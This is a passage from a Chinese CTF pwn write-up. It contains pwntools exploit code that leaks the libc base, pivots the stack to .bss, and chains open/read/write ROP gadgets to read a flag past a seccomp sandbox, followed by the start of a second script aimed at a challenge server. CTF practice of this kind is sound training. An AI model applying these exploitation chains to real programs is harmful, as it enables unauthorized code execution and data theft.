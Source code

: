 ```
p.sendafter('voice :',migr_pay)
p.recv()
func_addr=u64(p.recv(6).ljust(8,b'\x00'))
base=func_addr-libc.symbols['read']
print(hex(base))
system_addr=base+libc.symbols['system']
printf_addr=base+libc.symbols['printf']
sh=base+next(libc.search(b'/bin/sh'))
open64_addr=base+libc.symbols['open64']
 
pop_rdx=0x142c92+base
pop_rsi=0x2601f+base
pause()
payload2=p64(bss_st+0x100)+p64(pop_rdi)+p64(flag_name)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(open64_addr)+p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx)+p64(0x30)+p64(read_addr)
payload2+=p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx)+p64(0x30)+p64(write_addr)+p64(vuln)
p.sendline(payload2)
 
migr_pay=b'a'*0x8+p64(bss_st)+p64(leave)
p.sendafter('voice :',migr_pay)
 
p.interactive()
 
# 0x000000000040136c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040136e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000401370 : pop r14 ; pop r15 ; ret
# 0x0000000000401372 : pop r15 ; ret
# 0x000000000040136b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040136f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x00000000004011bd : pop rbp ; ret
# 0x0000000000401373 : pop rdi ; ret
# 0x0000000000401371 : pop rsi ; pop r15 ; ret
# 0x000000000040136d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret
# 0x000000000040121a : ret 0xfffe
 
# in libc
# 0x0000000000142c92 : pop rdx ; ret
# 0x000000000002601f : pop rsi ; ret
```
### call me sys
syscall，但是只能用几个函数
又是沙箱：
![](https://akyoi.akyuu.space/blogs/CTF/monthgame2310/2dis1.png)
![](https://akyoi.akyuu.space/blogs/CTF/monthgame2310/2seccomp.png)
还是栈溢出漏洞：
![](https://akyoi.akyuu.space/blogs/CTF/monthgame2310/2dis2.png)
由于没有关掉open,write,read函数，所以这题思路和上题一样。（题目说有三种方法，日后钻研）
```
from pwn import*
 
context(arch='amd64',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')
p=remote('8.130.110.158',2111)
# p=process('./pwn')
# p=process(['./ld-2.31.so', './pwn'], env={"LD_PRELOAD":'./libc-2.31.so'})
# gdb.attach(p)
```
